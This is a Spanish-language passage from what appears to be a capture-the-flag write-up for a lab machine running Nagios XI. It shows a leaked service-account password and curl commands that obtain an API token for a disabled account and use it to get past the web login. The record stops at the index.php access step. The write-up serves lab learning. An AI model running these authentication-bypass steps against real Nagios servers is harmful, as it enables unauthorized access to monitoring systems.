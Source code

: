 
Parece que se está llamando un script con el usuario svc y una contraseña:

`svc:XjH7VCehowpR1xZB`


Probamos esta contraseña con diversos servicios como SSH, a intentar enumerar LDAP con credenciales y con el panel de login de Nagios, pero no tenemos éxito, aunque sí notamos que algo cambia en el panel de login de Nagios en el mensaje que recibimos:

![image](https://github.com/user-attachments/assets/4752f358-3964-4295-898a-4c42d643e8f6)


Ya no nos indica `Invalid username or password.`ahora tenemos otro error distinto lo cual nos hace sospechar que el usuarios svc exista con esas credenciales pero ha sido deshabilitado porque además el error es distinto si la contraseña no es correcta.


Tenemos credenciales, pero no podemos acceder a la interfaz web debido a que la cuenta está deshabilitada.
Investigando en Nagios , encontramos este post https://support.nagios.com/forum/viewtopic.php?p=310411#p310411 en los foros de Nagios que nos proporciona el siguiente comando,
utilizando la API del servicio:

```bash
curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'
```


Si lo usamos usando las credenciales descubiertas obtenemos un token que es válido durante 5 minutos:

```bash
curl -XPOST -k -L 'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
```
![image](https://github.com/user-attachments/assets/13b88f3a-7e4e-4ddb-9677-c022a51a85ec)



Seguimos las instrucciones del post para ver cómo puede usarse este token:

```bash
curl -k -L 'http://YOURXISERVER/nagiosxi/includes/components/nagioscore/ui/trends.php? createimage&host=localhost&token=TOKEN' > image.png
```

```bash
curl -k -L 'http://10.10.11.248/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=befcb077e9767d71b63d7370aea15281a7691a5d' > image.png
```

![image](https://github.com/user-attachments/assets/baff7646-f389-43f0-ae00-981927235744)


Funciona así que si aplicamos esta misma lógica al recurso /nagiosxi/index.php?token=XXX deberíamos tener acceso al index de la página:

```bash
https://nagios.monitored.htb/nagiosxi/index.php?token=bbe75ef7172d84c04ac070f457abb5739cf99a34
```
